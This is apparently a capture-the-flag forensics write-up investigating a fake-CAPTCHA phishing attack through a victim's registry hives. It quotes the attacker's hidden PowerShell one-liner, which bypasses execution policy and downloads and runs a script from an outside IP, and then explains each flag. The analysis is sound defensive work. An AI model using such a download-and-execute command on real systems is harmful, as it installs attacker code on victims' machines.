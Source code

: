 # Pikaptcha

![image](https://github.com/user-attachments/assets/e29f4a11-7ca9-4957-881f-859e6d749c7a)


> Write-up author: jon-brandy

## Lessons Learned:
1. Using registry explorer to load user's registry hive.
2. Reviewing malicious powershell that acts as a downloader.

## SCENARIO:
<p align="justify">Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.</p>

## STEPS:
1. In this case, we're tasked to investigate a recent phising attack.
2. A person named Happy Grunwald contacted Alonzo, a system administrator, regarding an issue with downloading the latest version of Microsoft Office.
3. Happy reported that he received an email instructing him to update Microsoft Office via a link. After clicking the link, he was prompted to solve a CAPTCHA, but no download page appeared afterward.
4. Recognizing this as a potential phishing attempt, Alonzo became suspicious of the attacker’s tactics. He contacted the security team, who promptly isolated the victim’s machine and provided us with network traffic data and endpoint artifacts for analysis.

![image](https://github.com/user-attachments/assets/8e6a4129-e597-4e74-8094-b4c111b3cf51)


> 1ST QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/a78977c0-5c0a-48a5-8b36-473255407f4a)


5. We're given many registry hives and prefetch folder, it's kinda painful to analyze windows registry hives without knowing the context and location of what is our interest.
6. To review recently executed command, we can start analyzing from `RunMRU` registry key for **happy grunwald** user.
7. To analyze the registry hives I used `registry explorer`. To load the registry hive for user **happy grundwald**, simply load the `NTUSER.DAT` of **happy grundwald**.

![image](https://github.com/user-attachments/assets/7858c1ff-0032-44dd-9f25-eaa84c5689e5)


> RESULT IN REGISTRY EXPLORER

![image](https://github.com/user-attachments/assets/9f715145-4b36-4374-9974-973a6284cf5d)


8. Again, to reduce the pain by traverse the folder manually, instead we can use the search bar to find **RunMRU**.

![image](https://github.com/user-attachments/assets/bc3c7289-8ebd-4375-99fb-885d9f3873dc)


9. Notice that we found a powershell command execution from a remote source. This is a hint for a malicious activity.

> Malicious Powershell Script

```pwsh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"\1
```

#### NOTES REGARDING THE POWERSHELL EXECUTION FOUND:

`-NoP` flag (No Profile), is used to prevent powershell from loading the user's profile scripts (it can be used to reduce startup time). `-Noni` (Non-Interactive) flag is used to run the powershell script in a non-interactive mode. `-W hidden` flag is used to hides the powershell window, thus making the executiion invisible to the user.

The biggest red flag is `-Exec Bypass`, this flag used to override the system's execution policy, allowing the script to run regardless of any policy settings that might prevent it. This flag is actually is the biggest red flag if it is executed by non legitimate user.

`-Command` flag is used to specify the powershell command, `IEX` (Invoke Expression) this cmdlet is used to evaluate or runs the expression passed to it. `(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')` this part creates a new web client object to download the script from the remote server and this script content is passed to IEX which runs it in the current powershell session.

In short, this powershell command is used to download a malicious powersell script file --> `office2024install.ps1`. 


11. Anyway if we correlate this with cyber kill chain stages, this stage is at the **installation** stage --> stage where the attacker tried to gain persistence.
12. Great! Simple as that now we identified the full command that was run to download and execute the stager.


> 2ND QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/ca12a9cd-dee8-4948-9431-11f2e50dd65e)


> 3RD QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/672f5b38-997b-4467-a94d-1db9dc5a9676)


> 4TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/a0bf7148-2f6b-422d-bffb-22e92ccbb706)


> 5TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/4d9b46be-84f4-4669-aa44-9be1ce7f280b)


> 6TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/13f0b3f6-8563-4606-b356-4dd0d806f481)


# IMPORTANT LINKS:

```

```
